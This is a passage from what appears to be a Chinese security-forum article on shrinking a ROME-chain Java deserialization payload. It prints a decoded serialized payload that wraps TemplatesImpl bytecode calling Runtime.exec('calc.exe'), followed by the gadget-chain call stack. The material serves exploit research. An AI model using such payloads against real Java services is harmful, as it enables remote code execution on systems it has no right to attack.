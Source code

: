 ![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-d85e49d13a78e9501cc5d919a8b48b90bd56ca21.png)

但是还是有三千多，不过既然这个短我们就还是通过这个来入手吧

我们可以怎样来进行缩减呢？在参考各方资料之前先来想一下比较好。

```plaintext
¬í..sr..java.util.HashMap..ÚÁÃ.`Ñ...F.
loadFactorI.    thresholdxp?@......w.........sr.(com.sun.syndication.feed.impl.ObjectBean...Þv..J...L.._cloneableBeant.-Lcom/sun/syndication/feed/impl/CloneableBean;L.._equalsBeant.*Lcom/sun/syndication/feed/impl/EqualsBean;L.
_toStringBeant.,Lcom/sun/syndication/feed/impl/ToStringBean;xpsr.+com.sun.syndication.feed.impl.CloneableBeanÝa»Å3Okw...L.._ignorePropertiest..Ljava/util/Set;L.._objt..Ljava/lang/Object;xpsr..java.util.Collections$EmptySet.õr.´.Ë(...xpsq.~..sq.~..q.~..sr.:com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl  WOÁn¬«3...I.
_indentNumberI.._transletIndex[.
_bytecodest..[[B[.._classt..[Ljava/lang/Class;L.._namet..Ljava/lang/String;L.._outputPropertiest..Ljava/util/Properties;xp....ÿÿÿÿur..[[BKý..ggÛ7...xp....ur..[B¬ó.ø..Tà...xp...ÖÊþº¾...4.2
......0......<init>...()V...Code...LineNumberTable...LocalVariableTable...this...StubTransletPayload...InnerClasses...LROMEtest2$StubTransletPayload;.. transform..r(Lcom/sun/org/apache/xalan/internal/xsltc/DOM;[Lcom/sun/org/apache/xml/internal/serializer/SerializationHandler;)V...document..-Lcom/sun/org/apache/xalan/internal/xsltc/DOM;...handlers..B[Lcom/sun/org/apache/xml/internal/serializer/SerializationHandler;..
Exceptions.. ..¦(Lcom/sun/org/apache/xalan/internal/xsltc/DOM;Lcom/sun/org/apache/xml/internal/dtm/DTMAxisIterator;Lcom/sun/org/apache/xml/internal/serializer/SerializationHandler;)V...iterator..5Lcom/sun/org/apache/xml/internal/dtm/DTMAxisIterator;...handler..ALcom/sun/org/apache/xml/internal/serializer/SerializationHandler;..
SourceFile...ROMEtest2.java.......!...ROMEtest2$StubTransletPayload..@com/sun/org/apache/xalan/internal/xsltc/runtime/AbstractTranslet..9com/sun/org/apache/xalan/internal/xsltc/TransletException..    ROMEtest2...<clinit>...java/lang/Runtime..#..
getRuntime...()Ljava/lang/Runtime;..%.&
.$.'...calc.exe..)...exec..'(Ljava/lang/String;)Ljava/lang/Process;..+.,
.$.-..
StackMapTable...sp4c1ous..
Lsp4c1ous;.!......................./........*·..±.............................  .1.....
.........?........±..................... .......    .1...................................
.........I........±.....................*.......    .1.............................................".........$........§...L¸.(.*¶..W±...../......................
.......
.   pt..HelloTemplatesTmplpw..xsr.(com.sun.syndication.feed.impl.EqualsBeanõ..»åö.....L.
_beanClasst..Ljava/lang/Class;L.._objq.~.   xpvr..javax.xml.transform.Templates...........xpq.~..sr.*com.sun.syndication.feed.impl.ToStringBean õ.J.#î1...L.
_beanClassq.~..L.._objq.~.  xpq.~..q.~..sq.~..vq.~..q.~.
sq.~..q.~."q.~.
q.~..x
```

这是解 Base64 之后的内容，从利用链上来说我们应该是存在一定的操作空间的

```java
/**
 *
 * TemplatesImpl.getOutputProperties()
 * NativeMethodAccessorImpl.invoke0(Method, Object, Object[])
 * NativeMethodAccessorImpl.invoke(Object, Object[])
 * DelegatingMethodAccessorImpl.invoke(Object, Object[])
 * Method.invoke(Object, Object...)
 * ToStringBean.toString(String)
 * ToStringBean.toString()
 * ObjectBean.toString()
 * EqualsBean.beanHashCode()
 * ObjectBean.hashCode()
 * HashMap<K,V>.hash(Object)
 * HashMap<K,V>.readObject(ObjectInputStream)
 *
 * @author mbechler
```